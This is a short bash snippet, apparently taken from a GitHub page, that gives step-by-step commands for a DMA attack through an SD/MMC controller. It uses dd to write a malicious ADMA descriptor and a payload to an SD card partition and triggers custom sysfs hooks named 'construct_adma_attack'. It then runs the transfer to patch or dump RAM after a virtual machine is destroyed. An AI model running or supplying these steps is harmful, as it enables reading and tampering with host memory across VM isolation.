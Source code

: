 ```bash
#Copy the malicious DMA instruction to SD card (seek=Number of loop on the descriptor table-1)
dd if=target of=/dev/mmcblk0p2 bs=8 seek=511 count=1 
#Copy the payload to SD card after the malicious buffer descriptor. (bs X count) must match the size of the payload. (seek) corresponds to the number of loop on the descriptor table. 
dd if=payload of=/dev/mmcblk0p2 bs=8 seek=512 count=1 

#Prepare the descriptor table in RAM for carrying out the attack
cat /sys/devices/platform/ff170000.mmc/enable_custom_adma
cat /sys/devices/platform/ff170000.mmc/construct_adma_attack

#Run the attack (if= for patching, of= for dumping RAM)
dd if=/dev/mmcblk0p2 bs=64k count=1M

#Then, the VM can be destroyed and the malicious DMA operation will be performed after some time depending on the chosen size of the descriptor table and the number of loop (seek) in the descriptor table
```


